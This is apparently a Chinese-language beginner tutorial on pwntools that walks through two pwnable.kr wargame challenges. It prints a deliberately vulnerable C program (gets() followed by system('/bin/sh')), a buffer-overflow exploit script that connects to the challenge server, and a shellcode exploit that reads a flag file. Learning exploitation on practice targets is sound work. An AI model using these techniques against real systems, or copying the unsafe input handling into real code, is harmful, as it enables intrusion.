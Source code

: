```yaml
---
title: "`pwntools` 新手教程"
date: 2019-06-10T04:41:10+08:00
tags: [""]
categories: ["工具使用接口", "PwnTools"]
---
```


> 学习网址：
>
> - <https://bbs.pediy.com/thread-247217.htm>


## `Hello World`

C 程序源代码（`./1.c`）：

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
    char overflowme[32];
    printf("overflow me : ");
    gets(overflowme);    // smash me!
    if(key == 0xcafebabe){
        system("/bin/sh");
    }
    else{
        printf("Nah..\n");
    }
}
int main(int argc, char* argv[]){
    func(0xdeadbeef);
    return 0;
}
```

`exp` 脚本（`./1.py`）：

```python
from pwn import *
c = remote("pwnable.kr", 9000)
c.sendline("AAAA" * 13 + p32(0xcafebabe))
c.interactive()
```

## `ShellCode`

获取源码和可执行文件的方式，需要先通过 `ssh` 连接的目标主机：

```bash
ssh -p2222 asm@pwnable.kr
# 输入密码 guest
```

或者直接通过 `scp` 下载文件：

```bash
scp -P 2222 asm@pwnable.kr:~/asm ./
# 输入密码 guest

scp -P 2222 asm@pwnable.kr:~/asm.c ./
# 输入密码 guest
```

`exp.py` 的内容：

```python
from pwn import *
 
p = process("./asm")
context.log_level = 'DEBUG'
gdb.attach(p)
 
context(arch='amd64', os='linux')
 
shellcode = shellcraft.amd64.pushstr("this_is_pwnable.kr_flag_file_please_read_this_file.sorry_the_file_name_is_very_loooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0000000000000000000000000ooooooooooooooooooooooo000000000000o0o0o0o0o0o0ong")
shellcode += shellcraft.amd64.linux.open('rsp',0,0)
shellcode += shellcraft.amd64.linux.read('rax','rsp',0)
shellcode += shellcraft.amd64.linux.write(1, 'rsp', 100)
 
p.recvuntil('shellcode: ')
p.send(asm(shellcode))
log.success(p.recvall())
```

 除了 I/O, `process` 返回的对象可以通过 `gdb.attach(p)` 将进程 attach 到 gdb 上。Attach 之后，gdb 便可以调试该程序来（设置 breakpoints，查看 stack，以及简单的反汇编）。


